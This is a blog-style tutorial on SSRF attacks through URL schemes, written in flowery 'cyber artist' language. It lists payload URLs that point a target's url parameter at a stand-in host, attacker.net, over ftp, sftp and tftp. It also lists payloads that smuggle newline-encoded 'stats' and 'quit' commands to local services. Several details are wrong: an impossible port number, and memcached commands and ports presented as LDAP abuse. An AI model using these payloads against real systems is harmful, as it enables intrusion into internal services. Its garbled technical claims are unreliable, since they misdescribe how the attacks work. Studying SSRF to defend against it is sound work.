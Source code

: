 # Connecting to Services via URL Schemes

In our continued exploration of Server-Side Request Forgery (SSRF) exploits, we embark on a journey through the intricate web of URL schemes. These techniques, akin to a cyber artist's brushstrokes, allow attackers to connect to specific services, revealing concealed aspects of the digital landscape.

### **The Art of Connection: URL Schemes Unveiled**

Among the vast repertoire of SSRF exploits, one captivating chapter revolves around the utilization of URL schemes for connecting to diverse services. This artistry enables attackers to traverse the digital realm, connecting to services and uncovering their inner workings. Let's delve into this exquisite world:

### **File Transfer Protocols: A Symphony of Services**

The cyber artist, like a maestro conducting an orchestra, orchestrates a symphony of file transfer protocols to connect to remote services:

* _FTP: A Ballet of Data Transfer_

```bash
bashCopy codehttps://target.com/page?url=ftp://attacker.net:11211/
```

In this dance of data transfer, the attacker employs FTP, orchestrating a ballet of information exchange.

* _SFTP: A Serenade of Secure Connections_

```bash
bashCopy codehttps://target.com/page?url=sftp://attacker.net:11111/
```

With grace and precision, SFTP becomes a serenade, ensuring secure connections that resonate with cybersecurity.

* _TFTP: A Thrilling Voyage through UDP_

```bash
bashCopy codehttps://target.com/page?url=tftp://attacker.net:123456/TESTUDP
```

TFTP embarks on a thrilling voyage through UDP, exploring uncharted waters in the pursuit of data.

### **Abusing LDAP: An Artistic Intrigue**

As the artist's canvas expands, a new intrigue emerges—abusing the LDAP protocol:

* _The LDAP Mirage_: The attacker casts a mirage within the LDAP protocol, a digital illusion that conceals malicious intent:

```perl
perlCopy codehttps://target.com/page?url=ldap://127.0.0.1/%0astats%0aquit
```

This enigmatic exploit navigates the LDAP labyrinth, executing commands such as "stats" and "quit" within the protocol.

* _Local LDAP Manipulation_: With finesse, the attacker manipulates the local LDAP interface, drawing it into a web of digital artistry:

```perl
perlCopy codehttps://target.com/page?url=ldap://localhost:11211/%0astats%0aquit
```

Here, the artist ventures into the heart of LDAP, weaving a tapestry of commands to achieve their goals.

### **Conclusion: The Complexity of SSRF Exploits**

As we conclude our exploration of SSRF exploits, we are reminded of the intricate nature of these cyber techniques. URL schemes become the brushes and colors on the canvas, allowing attackers to craft their digital masterpieces. However, with great artistry comes great responsibility.

Understanding SSRF vulnerabilities and the techniques used to exploit them is essential for the security of digital landscapes. It is the duty of cybersecurity professionals to defend against these artistic exploits, ensuring that the canvas remains untouched by malicious strokes.
